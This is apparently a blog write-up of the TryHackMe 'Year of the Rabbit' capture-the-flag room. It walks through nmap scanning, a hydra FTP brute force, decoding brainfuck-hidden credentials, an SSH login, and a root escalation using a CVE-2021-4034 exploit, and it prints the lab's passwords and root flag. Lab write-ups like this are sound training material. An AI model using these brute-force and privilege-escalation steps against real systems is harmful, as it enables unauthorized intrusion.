 ```yaml
---
title: "Year of the Rabbit"
date: 2022-08-30 10:00:40 +0530
categories: [TryHackMe]
tags: [Machines]
image: /assets/img/yearOfRabbit/profile.png
---
```


This is the [tryhackme](https://tryhackme.com/room/yearoftherabbit) room with difficult level `easy`.

## Enumeration.
### nmap scanning.

**Command.**
```
 nmap -sC -sV 10.10.59.107 -oN nmap-scan 
```
**Results**
```
# Nmap 7.92 scan initiated Fri May 20 22:37:30 2022 as: nmap -sC -sV -oN nmap-scan 10.10.59.107
Nmap scan report for 10.10.59.107
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.10 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 20 22:38:15 2022 -- 1 IP address (1 host up) scanned in 45.31 seconds
```

### Burp-suit.

![image](/assets/img/yearOfRabbit/burp.png)

**Visit  the hidden directory**
```
GET /intermediary.php?hidden_directory=/WExYY2Cv-qU 
```
Then navigate to ``http://thm-machine-ip/WExYY2Cv-qU/``

This will lead us to the directory which has an image named as ``Hot_Babe.png.`` I renamed it to `bae.png.`
![image](/assets/img/yearOfRabbit/bae.png)

**Checking if there is any message in the image.**
```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ strings bae.png
```
We found a message as shown below.


>message from image
>
>Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:


## Brute-force ftp password.
```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ hydra -l ftpuser -P "ftp-passwds" -s 21 -o "ftp-results" ftp://10.10.59.107 
```
**Result.**
```
password: 5iez1wGXKfPKQ
```

## Login to ftp server.

```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ ftp 10.10.59.107
Connected to 10.10.59.107.
220 (vsFTPd 3.0.2)
Name (10.10.59.107:egovridc): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

**List ftp files.**
```
ftp> ls 
229 Entering Extended Passive Mode (|||33780|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
```

**Download  Eli's_Creds.txt from ftp server.**
```
ftp> get Eli's_Creds.txt
local: Eli's_Creds.txt remote: Eli's_Creds.txt
229 Entering Extended Passive Mode (|||12303|).
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
100% |*************************************************************************|   758      622.04 KiB/s    00:00 ETA
226 Transfer complete.
758 bytes received in 00:00 (4.46 KiB/s)
ftp> 
```

**Reading Eli's_Creds.txt.**
```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ cat Eli\'s_Creds.txt 
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

The file is obfuscated  with brainfuck, so i decided to use online [brainfuck](https://www.dcode.fr/brainfuck-language) tool to decrypt.

**Results**
```
User: eli
Password: DSpDiM1wAEwid
```

## Login into Eli's machine by using ssh.

**ssh**
```
┌──(egovridc㉿egovridc)-[~/C7F5/thm/yearOfrabbit]
└─$ ssh eli@10.10.59.107 
```

>message from root 
>
>1 new message
>
>Message from Root to Gwendoline:
>"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"
>
>END MESSAGE
 
## User privilege escalation.

### Find secret message from root.
 
**s3cr3t**
```
eli@year-of-the-rabbit:~$ find /  -name *s3cr3t* 2>/dev/null
/var/www/html/sup3r_s3cr3t_fl4g.php
/usr/games/s3cr3t
```

**Reading the file.**
```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```
It contains password for user gwendoline.

**Switch to user gwendoline.**
```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password: 
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ whoami
gwendoline
```

## Root privilege escalation.

`CVE-2021-4034`
Send the files to the victim machine and run `make` then `exploit`
Results.

**Root user**
```
gwendoline@year-of-the-rabbit:~$ make
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
gwendoline@year-of-the-rabbit:~$ ls
evil.so  evil-so.c  exploit  exploit.c  Makefile  user.txt
gwendoline@year-of-the-rabbit:~$ ./exploit 
# cd /root
# ls
root.txt
# cat root.txt
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
# 
```

**End.**